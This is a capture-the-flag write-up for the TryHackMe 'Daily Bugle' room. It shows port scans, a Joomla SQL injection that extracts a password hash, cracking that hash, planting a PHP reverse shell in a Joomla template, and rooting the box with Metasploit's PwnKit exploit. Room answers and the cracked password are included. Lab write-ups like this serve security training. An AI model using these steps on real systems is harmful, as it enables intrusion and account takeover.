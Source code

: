 ```yaml
---
layout: post
title: Box - Daily Bugle
published: true
---
```


Compromise a Joomla CMS account via SQLi, practise cracking hashes and escalate your privileges by taking advantage of yum.

[https://tryhackme.com/room/dailybugle](https://tryhackme.com/room/dailybugle)

![](/assets/bugle01.png)

* * *

## Task 1 - Deploy

1. ``sudo nmap -Pn -sS -T4 -p- 10.10.198.207 -oN nmap_initial.txt``
2. ``sudo nmap -sV -sC -T4 -p22,80,3306 10.10.198.207 -oN nmap_second.txt``

```shell
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
3306/tcp open  mysql   MariaDB (unauthorized)
```

##   Answer the questions below

**Access the web server, who robbed the bank?**

![](/assets/bugle02.png)

- spiderman

* * *

## Task 2 - Obtain user and root 

Hack into the machine and obtain the root user's credentials.

![](/assets/bugle03.png)

##   Answer the questions below

**What is the Joomla version?**

- quick google find version is @ ``/administrator/manifests/files/joomla.xml``
- version 3.7.0

*Instead of using SQLMap, why not use a python script!*

- [Joomblah.py](https://github.com/stefanlucas/Exploit-Joomla/blob/master/README.md)

```shell
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

**What is Jonah's cracked password?**

- ``john jonah-pass.hash --wordlist=/usr/share/seclists/Passwords/rockyou.txt --format=bcrypt``
- spiderman123

**What is the user flag?**

1. Travel to templated and customise index.php to reverse shell ``https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php``
2. setup netcat listener, and template preview to get shell.

```shell
┌──(0xskar㉿cocokali)-[~/thm/rooms/dailybugle]
└─$ nc -nvlp 7777          
listening on [any] 7777 ...
connect to [10.x.x.x] from (UNKNOWN) [10.10.16.193] 41306
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 18:10:50 up  1:06,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache
```

3. download and run ./linpeas.sh

**Things to look at:**

- OS: Linux version 3.10.0-1062.el7.x86_64
- Sudo version 1.8.23
- Vulnerable to ``CVE-2021-4034``
- Exploit suggester ``[CVE-2016-5195] dirtycow``

```shell
meterpreter > sysinfo
Computer     : 10.10.16.193
OS           : CentOS 7.7.1908 (Linux 3.10.0-1062.el7.x86_64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```

4. ``background meterpreter session``
5. ``search 2021-4034`` and ``use 0``

```shell
msf6 exploit(linux/local/cve_2021_4034_pwnkit_lpe_pkexec) > exploit

[*] Started reverse TCP handler on 10.x.x.x:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Verify cleanup of /tmp/.ssbbnl
[+] The target is vulnerable.
[*] Writing '/tmp/.ozchxfocjj/corwmy/corwmy.so' (548 bytes) ...
[!] Verify cleanup of /tmp/.ozchxfocjj
[*] Sending stage (3020772 bytes) to 10.10.16.193
[+] Deleted /tmp/.ozchxfocjj/corwmy/corwmy.so
[+] Deleted /tmp/.ozchxfocjj/.ztjfms
[+] Deleted /tmp/.ozchxfocjj
[*] Meterpreter session 2 opened (10.x.x.x:4444 -> 10.10.16.193:48942) at 2022-06-23 16:04:50 -0700

meterpreter > shell
Process 22448 created.
Channel 1 created.
whoami
root
```

**What is the root flag?**

- Get flags with root shell! Was fun!

* * * 
